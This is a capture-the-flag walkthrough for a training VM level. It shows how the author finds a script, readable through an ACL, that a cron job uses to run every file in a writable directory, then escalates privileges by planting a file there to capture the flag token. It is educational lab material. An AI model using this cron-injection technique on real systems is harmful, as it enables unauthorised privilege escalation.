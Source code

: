 ## Exploring the exercice

```bash 
$ ls -la
$ ls -la
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc
-r-x------  1 level05 level05  675 Apr  3  2012 .profile

```

Nothing interesting. Let's go back to what we did in the first exercice. 

```bash 
$ find / -user level05 2>/dev/null
[Many results so probably not here]
```

```bash
$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

```bash
$ file /usr/sbin/openarenaserver 
/usr/sbin/openarenaserver: POSIX shell script, ASCII text executable
```

```bash
$ ls -l /usr/sbin/openarenaserver 
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```

The +1 informs us that an ACL(Access Control List) rule is defined, let's see what it allows us to do.

```bash
$ getfacl /usr/sbin/openarenaserver
# file: usr/sbin/openarenaserver
# owner: flag05
# group: flag05
user::rwx
user:level05:r--
group::r-x
mask::r-x
other::---
```

We cannot read the file normally but thanks to the ACL rule we can. 

```bash
$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done

```

We have a POSIX shell that executes every file in folder /opt/openarenaserver and deletes them after.

Let's try to add a file to the folder. 

```bash
$ echo "getflag" > /opt/openarenaserver/test.sh
$ ls /opt/openarenaserver/
test.sh
```

It worked our file is here. 

```bash
$ /usr/sbin/openarenaserver
-bash: /usr/sbin/openarenaserver: Permission denied
```

We cannot excute the openarenaserver ourself, but after a certain period of time our file is gone. Maybe a CRON executed it.

```bash
$ ls /opt/openarenaserver/

```
Let's right the output of getflag in a file so we can retrieve it after the cron executed it.

```bash
$ echo "getflag > /tmp/flagg" > /opt/openarenaserver/script.sh 
```

```bash
$ cat /tmp/flagg
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

We got our flag !
